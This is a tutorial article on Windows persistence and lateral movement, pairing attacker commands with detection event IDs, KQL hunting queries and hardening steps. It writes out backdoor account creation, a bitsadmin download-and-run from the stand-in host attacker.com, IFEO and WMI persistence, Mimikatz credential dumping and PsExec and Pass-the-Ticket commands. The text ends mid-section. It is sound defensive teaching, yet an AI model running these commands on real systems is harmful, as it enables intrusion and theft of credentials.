# Windows Persistence & Lateral Movement — The Complete Post-Exploitation Guide

When an attacker achieves initial access to a target system, the real battle has only just begun. A phishing email was clicked, a vulnerability was exploited, or a VPN credential was stolen — but that's simply walking through the door. The true goal is to **stay undetected, establish a durable foothold, and spread deep into the network.**

In this article, we examine the post-compromise phase chronologically through an attacker's eyes:

1. **Persistence:** Surviving system reboots, password resets, and detection attempts.
2. **Lateral Movement:** Pivoting from the first compromised machine to critical servers and the Domain Controller.
3. **Detection:** How the Blue Team can break this chain.
4. **Hardening:** Proactive defense measures.

> This structure maps directly to MITRE ATT&CK Enterprise Matrix tactics **TA0003 (Persistence)** and **TA0008 (Lateral Movement)**.


---
## Part 1: Windows Persistence Mechanisms


Persistence methods ensure that malicious software or unauthorized access continues even if a system is restarted or a user is logged off. At this stage, attackers prefer to be as quiet as possible: evade antivirus, generate minimal log events, and blend in with legitimate system tools.

### User Manipulation

When attackers gain control of the Administrator account, rather than using it directly (since its activities are monitored), they create new "ordinary-looking" users. These accounts typically carry names like `support`, `sysadmin`, or `helpdesk` — unlikely to trigger SOC radar.

```cmd
net user backdoor P@ssw0rd123 /add
net localgroup Administrators backdoor /add
```

To list existing users:

```cmd
net users
```



**SOC Detection — Event IDs:**

| Event ID | Meaning |
|----------|---------|
| 4720 | New user account created |
| 4726 | User account deleted |
| 4732 | Member added to a group (e.g., Administrators) |

These Event IDs can be filtered in Event Viewer → Windows Logs → Security.






### Scheduled Tasks

One of the most commonly used persistence methods — from ransomware to APT groups. The attacker ensures the malicious file runs at defined intervals or at system startup.

```cmd
schtasks /create /tn "WindowsUpdate" /tr "C:\Users\Public\payload.exe" /sc onlogon /ru SYSTEM
```

The Sysinternals **Autoruns** tool lists scheduled tasks alongside signature validation — tasks without a Microsoft signature are flagged in red.



**SOC Detection:**
- Event ID **4698**: New scheduled task created
- Autoruns → Scheduled Tasks tab


### Registry Run Keys

Registry Run keys are a legitimate Windows feature that automatically executes specified programs at system startup or user logon. According to MITRE ATT&CK data, technique **T1547.001** is used by more than 54 known threat groups.

**Core Run Keys:**

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

**Startup Folder Redirect Keys:**

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\UserShellFolders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\ShellFolders
```

**Advanced Keys (APT Favorites):**

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost   ← Used by APT41
HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

Registry changes can be visualized with `regedit` or Autoruns:







**SOC Detection:**
- Event ID **4657**: Registry value modified/created (auditing must be enabled)
- Sysmon Event ID **12** (key create/delete) and **13** (value set)


### Startup Folder

```
C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Accessible via Run (Win+R) → `shell:startup`:






### Windows Services

Attackers can create new services with legitimate-sounding names (e.g., `ChromeUpdateService`) or hijack existing ones.

```cmd
sc create "ChromeUpdateService" binPath= "C:\Users\Public\payload.exe" start= auto
sc start "ChromeUpdateService"
```

**SOC Detection:**
- Event ID **4697**: A service was installed on the system
- Autoruns → Services tab


### BITS Jobs (Background Intelligent Transfer Service)

BITS is Windows' file transfer infrastructure and is typically allowed through firewalls. Attackers use BITS to download and execute payloads while flying under the radar of security tools.

```cmd
bitsadmin /create /download MalJob
bitsadmin /addfile MalJob http://attacker.com/payload.exe C:\Users\Public\payload.exe
bitsadmin /SetNotifyCmdLine MalJob C:\Users\Public\payload.exe NULL
bitsadmin /resume MalJob
```

**Detection:** `bitsadmin /list /verbose` or Sysmon process creation logs.


### WMI Event Subscriptions — Fileless Persistence

WMI (Windows Management Instrumentation) is one of the most sophisticated persistence techniques used by advanced threat actors — it leaves no files on disk. The payload is stored in the registry and WMI database; since traditional antivirus focuses on the file system, this technique is often missed.

**Three components work together:**

1. **Filter:** The triggering event — e.g., system startup
2. **Consumer:** The command/script to execute
3. **Binding:** Links the filter to the consumer

```powershell
# Filter: trigger every time the system starts
$filter = ([wmiclass]"\\.\root\subscription:__EventFilter").CreateInstance()
$filter.Name = "WindowsUpdateFilter"
$filter.QueryLanguage = "WQL"
$filter.Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$filter.EventNamespace = "root\cimv2"
$filter.Put()

# Consumer: execute PowerShell command
$consumer = ([wmiclass]"\\.\root\subscription:CommandLineEventConsumer").CreateInstance()
$consumer.Name = "WindowsUpdateConsumer"
$consumer.CommandLineTemplate = "powershell.exe -nop -w hidden -enc <BASE64_PAYLOAD>"
$consumer.Put()

# Binding
$binding = ([wmiclass]"\\.\root\subscription:__FilterToConsumerBinding").CreateInstance()
$binding.Filter = $filter.__PATH
$binding.Consumer = $consumer.__PATH
$binding.Put()
```

**SOC Detection:**
- Sysmon Event ID **19** (WmiEventFilter), **20** (WmiEventConsumer), **21** (WmiEventConsumerToFilter)
- PowerShell Script Block Logging Event ID **4104** (if enabled)
- Manual query: `Get-WMIObject -Namespace root\subscription -Class __EventFilter`


### COM Hijacking

COM (Component Object Model) is the infrastructure through which Windows applications communicate. Each COM object is registered in the registry with a CLSID. Attackers can copy a legitimate COM object's CLSID under `HKCU\Software\Classes\CLSID` and register their own malicious DLL — no administrator privileges required.

```
# Legitimate registration (HKLM - cannot be overwritten by user):
HKLM\Software\Classes\CLSID\{XXXXXXXX-...}\InprocServer32 → C:\Windows\System32\legitimate.dll

# Attacker registration (HKCU - writable with user privileges):
HKCU\Software\Classes\CLSID\{XXXXXXXX-...}\InprocServer32 → C:\Users\Public\evil.dll
```

Since Windows checks HKCU before HKLM, the malicious DLL loads. COM objects belonging to frequently-restarted processes like `explorer.exe` are ideal targets.

**Detection:** Sysmon Event ID **7** (Image Load) — legitimate processes loading DLLs from `C:\Users\` paths is anomalous.


### IFEO (Image File Execution Options) Injection

IFEO allows developers to attach a debugger to an application when it starts. Attackers abuse this mechanism to execute their backdoor instead of accessibility shortcut applications tied to the logon screen (e.g., `sethc.exe` — Sticky Keys, `utilman.exe` — Accessibility). This technique is particularly notable because it can be triggered from the logon screen — without any user session open.

```cmd
# Requires HKLM — needs SYSTEM/Admin privileges:
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe"
```

Now, pressing Shift five times on the login screen launches `cmd.exe` instead of `sethc.exe` — with SYSTEM privileges.

**Detection:**
- Sysmon Event ID **13**: Write to IFEO registry key
- Event ID **4688**: Unusual parent-child process relationship (sethc.exe → cmd.exe)


### DLL Search Order Hijacking / Sideloading

When Windows loads a DLL, it searches in a specific order: first the application's own directory, then system directories. Attackers place a maliciously named DLL in the same directory as a legitimate, signed application — causing code execution through a trusted process.

**Sideloading:** Particularly effective against security tools or antivirus software; the malicious DLL runs with the security product's own elevated privileges.

```
C:\Program Files\LegitApp\
├── LegitApp.exe      (signed, legitimate)
└── version.dll       (attacker's malicious DLL)
```

When `LegitApp.exe` starts, it checks its own directory first, finds `version.dll`, and loads it.

**Detection:** Sysmon Event ID **7** — unsigned or unexpected-path DLL loading.


## Part 2: From Persistence to Lateral Movement — The Bridge


This section explores the details and implications.


### Why Doesn't the Attacker Stay Put?

When an attacker first compromises a machine, it's typically a regular user workstation: limited access, limited data, limited impact. The real targets are the network's critical assets:

- **Domain Controller (DC):** All Active Directory credentials, Group Policy control, the NTDS.dit database
- **File Servers:** Sensitive documents, source code
- **Backup Servers:** Ideal ransomware target — encrypting backups ensures victims can't recover
- **SIEM/Log Servers:** Deleting evidence of the intrusion

### Active Directory: The Attacker's Gold Mine

The vast majority of enterprise networks run on Active Directory (AD). AD provides centralized identity management, making it the primary target for attackers — and once compromised, a master key that opens the doors of the entire network.

**Credential Harvesting:**

After establishing persistence on the initial machine, the attacker begins collecting credentials:

```cmd
# Dump credentials from LSASS memory with Mimikatz
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# Extract all domain hashes from NTDS.dit (on a DC)
ntdsutil "ac in ntds" "ifm" "create full C:\temp" q q
```

At this point, armed with credentials and hashes, the attacker is ready to move laterally.


---
## Part 3: Lateral Movement Within the Network


Lateral movement is the process by which an attacker gains access to other systems within the network. The average dwell time for an APT group's lateral movement phase in enterprise networks is **4–5 days**, though it can extend to weeks. Attackers aim to work as "quietly" as possible — leveraging legitimate tools (Living off the Land — LotL) and blending in with normal traffic.

### RDP (Remote Desktop Protocol) — APT Groups' Favorite

RDP is Microsoft's remote desktop connection protocol, operating on port **3389**. It's the most frequently used lateral movement vector for APT groups, primarily because RDP is already ubiquitous in corporate networks — it blends in with normal traffic.



**Key RDP Features:**
1. **Remote Access:** Full desktop control
2. **TLS Encryption:** Secure data transmission (older versions have known vulnerabilities — BlueKeep, CVE-2019-0708)
3. **Kerberos Integration:** In AD environments, authentication flows through the Kerberos protocol



**APT Lateral Movement Methods via RDP:**

- **Pass-the-Hash (PtH):** Authenticate using an NTLM hash without knowing the plaintext password
- **Credential Dumping:** Steal credentials from LSASS memory using Mimikatz
- **Brute-Force:** Crack weak RDP passwords through brute force

> **Important Note:** The fact that these attacks are possible doesn't make the RDP protocol itself insecure. Pass-the-Hash stems from Kerberos' stateless architecture; Credential Dumping stems from how Windows manages LSASS process memory. RDP is merely the vector for these attacks.

**APT Examples:**
- **APT33 (Iran):** Lateral movement via RDP + credential theft
- **APT29 (Cozy Bear / Russia):** Spread through internal networks using hijacked RDP sessions


### WinRM & PowerShell Remoting — Living off the Land

Windows Remote Management (WinRM) is Windows' built-in remote management protocol, running on ports **5985** (HTTP) and **5986** (HTTPS). This infrastructure, used daily by system administrators, is perfectly suited for the "Living off the Land" (LotL) tactic.

```powershell
# Connect to target system via PowerShell Remoting
Enter-PSSession -ComputerName target-server -Credential $cred

# Execute command on remote system
Invoke-Command -ComputerName target-server -ScriptBlock { whoami; ipconfig }

# Parallel commands across multiple systems
Invoke-Command -ComputerName dc01, web01, db01 -ScriptBlock { Get-Process }
```

**Why is this dangerous?**
- Uses entirely legitimate Windows processes: `powershell.exe` and `wsmprovhost.exe`
- Traffic passes encrypted over WinRM
- Many EDR solutions whitelist PowerShell Remoting by default

**SOC Detection:**
- Event ID **4624** (Type 3 — Network Logon): Remote logon to a system
- Event ID **4688**: `wsmprovhost.exe` process creation
- Sysmon Event ID **3**: Network connection to port 5985/5986
- PowerShell Script Block Logging (Event ID 4104)


### SMB Share & PsExec — Classic but Effective

SMB (Server Message Block) is Windows' file sharing protocol (port **445**). Attackers particularly exploit administrative shares `ADMIN$` and `C$` for lateral movement.

```cmd
# Connect to remote system via admin share
net use \\target-ip\ADMIN$ /user:DOMAIN\Administrator password

# Copy file
copy payload.exe \\target-ip\ADMIN$\payload.exe

# Execute command on remote system with PsExec
PsExec.exe \\target-ip -u DOMAIN\Administrator -p password cmd.exe
```

**How PsExec Works:**
1. Copies `PSEXESVC.exe` service to `ADMIN$` share
2. Starts that service on the target system
3. Communicates commands/responses over a Named Pipe
4. Deletes the service when done (but logs remain)

**SOC Detection:**
- Event ID **7045**: New service installation (`PSEXESVC`)
- Event ID **4624** (Type 3): SMB authentication
- Sysmon Event ID **1**: `PSEXESVC.exe` process creation
- Sysmon Event ID **11**: File dropped to `ADMIN$` share


### Kerberos Exploitation: PtT and Overpass-the-Hash

In Active Directory environments, authentication occurs via the Kerberos protocol. Kerberos' "stateless" (ticket-based) architecture opens the door to several critical attack vectors.

**Kerberos Ticket System:**
- **TGT (Ticket Granting Ticket):** Issued by the KDC (Key Distribution Center) when a user logs in
- **TGS (Ticket Granting Service):** Requested with a TGT to access specific services

#### Pass-the-Ticket (PtT)

A Kerberos ticket stolen from memory can be used for authentication on another system. As long as the ticket hasn't expired (default 10 hours), it works even if the password has been changed.

```cmd
# Dump existing tickets with Mimikatz
mimikatz.exe "sekurlsa::tickets /export"

# Inject stolen ticket into current session
mimikatz.exe "kerberos::ptt ticket.kirbi"

# Verify
klist
```

#### Overpass-the-Hash

A method of requesting a Kerberos TGT using an NTLM hash. Instead of using the hash directly for NTLM authentication, the attacker exchanges it for a Kerberos ticket — leaving fewer traces.

```cmd
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<HASH> /run:cmd.exe"
```

This opens a new session authenticated with the NTLM hash while silently requesting a Kerberos TGT in the background.

**Kerberos' Stateless Architecture and Its Relationship to RDP:**

RDP uses Kerberos for authentication in AD environments. In a Pass-the-Ticket attack, a stolen ticket can be used directly to open an RDP session — because Kerberos doesn't track which machine generated the ticket. This is why when Pass-the-Hash combines with RDP lateral movement, RDP appears to be "the culprit," but the real vulnerability lies in Kerberos' design philosophy.

**SOC Detection:**
- Event ID **4768**: TGT request (AS-REQ)
- Event ID **4769**: TGS request (TGS-REQ) — multiple rapid service requests from the same user to different services is anomalous
- Event ID **4771**: Kerberos pre-authentication failure


---
## Part 4: Blue Team / SOC Detection and Threat Hunting


This section explores the details and implications.


### Detection Philosophy: Anomaly Chains, Not Single Logs

Individual log entries are often misleading. Legitimate software can modify Run keys; system administrators use PsExec. Effective detection requires **correlation**: deriving meaning from multiple events together.

> **Golden Rule:** A single Event ID is not an alarm. An anomaly chain is an alarm.


### Event ID Reference Table

| Event ID | Source | Meaning |
|----------|--------|---------|
| 4720 | Windows Security | User account created |
| 4726 | Windows Security | User account deleted |
| 4732 | Windows Security | Member added to group |
| 4697 | Windows Security | Service installed |
| 4698 | Windows Security | Scheduled task created |
| 4624 (Type 3) | Windows Security | Network logon |
| 4624 (Type 10) | Windows Security | Remote interactive logon (RDP) |
| 4657 | Windows Security | Registry value modified |
| 4768 | Windows Security | Kerberos TGT request |
| 4769 | Windows Security | Kerberos TGS request |
| 1 | Sysmon | Process creation |
| 3 | Sysmon | Network connection |
| 7 | Sysmon | DLL image loaded |
| 11 | Sysmon | File creation |
| 12/13 | Sysmon | Registry create/modify |
| 19/20/21 | Sysmon | WMI event subscription |

---

### Deep Telemetry with Sysmon

Sysmon (System Monitor) significantly enriches Windows' native logging infrastructure. Critical event IDs for registry monitoring:

- **Event ID 12** (RegistryEvent - Object create/delete): New Run key created
- **Event ID 13** (RegistryEvent - Value Set): Existing key value modified

Every Sysmon record contains `ParentImage` and `ParentCommandLine` fields — showing who made the change and how that process was launched. This field is critical for tracing an attack chain backward.



### EDR/XDR Correlation Chain

XDR platforms transform isolated events into an attack story. An example persistence → C2 chain:

1. **Initial Access:** Phishing email → `outlook.exe` → `powershell.exe` spawned (Sysmon EID 1)
2. **File Drop:** `C:\Users\Public\payload.exe` created (Sysmon EID 11)
3. **Persistence:** Written to `HKCU\...\Run` key (Sysmon EID 13)
4. **C2 Connection:** Outbound connection to unknown IP:443 (Sysmon EID 3)



### Practical SOC Scenarios — KQL Pseudo-Code

**Scenario 1: Registry Write from Suspicious Location**

```kql
// A process running from C:\Users\Public or C:\ProgramData
// simultaneously modifying a Registry Run key → high-priority alert

SysmonEvent
| where EventID == 13
| where RegistryKey has_any ("\\CurrentVersion\\Run", "\\CurrentVersion\\RunOnce")
| join kind=inner (
    SysmonEvent
    | where EventID == 1
    | where Image has_any (@"C:\Users\Public", @"C:\ProgramData", @"C:\Windows\Temp")
) on $left.ProcessGuid == $right.ProcessGuid
| project TimeGenerated, Image, RegistryKey, RegistryValue, ParentImage
| order by TimeGenerated desc
```

**Scenario 2: Lateral Movement — WinRM + New Session Chain**

```kql
// Outbound connection to port 5985/5986 + new network logon (Event ID 4624 Type 3)
// on the same endpoint within a short window → potential WinRM lateral movement

SysmonEvent
| where EventID == 3
| where DestinationPort in (5985, 5986)
| join kind=inner (
    SecurityEvent
    | where EventID == 4624
    | where LogonType == 3
) on $left.SourceHostname == $right.WorkstationName
| where datetime_diff('minute', SecurityEvent.TimeGenerated, SysmonEvent.TimeGenerated) < 5
| project TimeGenerated, SourceIP, DestinationIP, DestinationPort, AccountName
```

**Scenario 3: WMI Persistence Detection**

```kql
// WMI EventFilter + EventConsumer creation chain
// Sysmon EID 19, 20, 21 firing together → critical alert

SysmonEvent
| where EventID in (19, 20, 21)
| summarize EventTypes = make_set(EventID), Count = count() by bin(TimeGenerated, 5m), Computer
| where array_length(EventTypes) >= 2  // Multiple WMI subscription components
| order by TimeGenerated desc
```

**Scenario 4: Kerberos Anomaly — Unusual Ticket Requests**

```kql
// More than 20 TGS requests to different services from the same user within 10 minutes
// → Pass-the-Ticket or lateral movement indicator

SecurityEvent
| where EventID == 4769
| summarize ServiceCount = dcount(ServiceName), TicketCount = count()
    by bin(TimeGenerated, 10m), TargetUserName, IpAddress
| where ServiceCount > 20
| order by TimeGenerated desc
```


### False Positive Management

Legitimate software (antivirus updates, enterprise tools) can also modify Run keys. To reduce noise:

- **Build a baseline:** Document normal autostart entries with `Get-PSAutorun`
- **Whitelist:** Exclude signed applications running from `C:\Program Files\` and `C:\Windows\`
- **Correlation over exclusion:** Rather than excluding single suspicious events, require them to correlate with other indicators


### Attacker Evasion Tactics

**Null Character Obfuscation:**

```
HKCU\Software\...\Run\[NULL]malware_key
```

`Regedit.exe` and `reg.exe` cannot display characters after null; these keys are invisible to standard tools. Sysmon or advanced EDR is required.

**Spoofed Process / File Names:**

- `C:\Windows\System32\svchost32.exe` (legitimate: `svchost.exe`)
- `C:\Windows\Temp\WindowsUpdate.exe`

**LOLBins (Living off the Land Binaries):**

Malicious use of legitimate Windows binaries:
- `certutil.exe -decode` → file download/decoding
- `mshta.exe` → remote HTA script execution
- `regsvr32.exe /s /n /u /i:http://...` → payload via COM object

---
## Part 5: Hardening and Defense


This section explores the details and implications.


### Privileged Access Management (PAM)

PAM is a centralized security solution used to manage, monitor, and audit privileged access in enterprise networks.



**Protections PAM Provides:**

- **Just-In-Time (JIT) Access:** Admin rights are granted only when needed and for a limited time; auto-revoked when the window expires
- **Session Recording:** All privileged sessions are recorded as video and logs
- **Password Vault:** Admin passwords are auto-managed by PAM; users never see the plaintext
- **Dual Approval:** Access to critical systems requires a second administrator's approval

**PAM and RDP:** When a PAM solution is in place, RDP sessions open through the PAM proxy — never directly. Credentials never appear on the target system, and every session is logged.


### Network Level Authentication (NLA)

NLA (Network Level Authentication) requires authentication before an RDP session is established, preventing unauthenticated connection requests from reaching the system.

```powershell
# Enable NLA via Group Policy or PowerShell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' `
    -Name "UserAuthentication" -Value 1
```


### Multi-Factor Authentication (MFA)

MFA should be mandatory for RDP, WinRM, and all other remote access methods. Even if credentials are stolen, login is impossible without the second factor.

- Azure AD / Microsoft Entra ID integration
- RADIUS-based MFA solutions
- Hardware keys (FIDO2 / YubiKey)


### Least Privilege Principle

Every user and service account should operate with only the minimum permissions required to perform its function.

**Practical Steps:**

```powershell
# Audit Domain Admins — who has unnecessary admin rights?
Get-ADGroupMember -Identity "Domain Admins" | Select Name, SamAccountName

# Manage local admin credentials with Microsoft LAPS:
# Each machine gets a unique, automatically rotating local admin password
```

- Disable or LAPS-manage the local Administrator account
- Don't grant admin privileges to service accounts
- Use Domain Admin accounts only on Domain Controllers


### Network Segmentation and Access Control

```
[Workstations] --[Firewall]--> [Servers] --[Firewall]--> [Domain Controller]
```

- **RDP (3389):** Allow only through a PAM proxy or Jump Server
- **WinRM (5985/5986):** Restrict to the management network segment
- **SMB (445):** Block direct SMB traffic between workstations
- **Micro-segmentation:** Restrict East-West traffic with host-based firewall rules


### Audit Policies and Centralized Log Management

```powershell
# Enable critical audit policies
auditpol /set /subcategory:"Registry" /success:enable /failure:enable
auditpol /set /subcategory:"Process Creation" /success:enable /failure:enable
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
```

- Forward all logs to a central **SIEM** (Splunk, Microsoft Sentinel, Elastic)
- Log retention should be at least **90 days** (ideally 1 year)
- Deploy **Sysmon** configuration using SwiftOnSecurity or Olaf Hartong templates


### Proactive Threat Hunting

Reactive defense is not enough. The Blue Team should perform these checks at regular intervals:

```powershell
# Capture autostart baseline
Get-PSAutorun | Export-Csv baseline.csv

# Check WMI event subscriptions
